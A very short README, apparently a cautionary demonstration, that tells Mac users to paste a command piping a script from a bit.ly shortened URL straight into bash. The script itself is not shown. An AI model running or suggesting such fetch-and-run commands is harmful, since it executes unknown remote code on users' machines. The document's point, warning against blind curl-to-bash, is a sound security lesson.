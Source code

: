 # hello
An example why you should always pause and think before curling to bash

Enter this into your terminal on your Mac

```
curl -sL "https://bit.ly/3fijht1" | bash
```
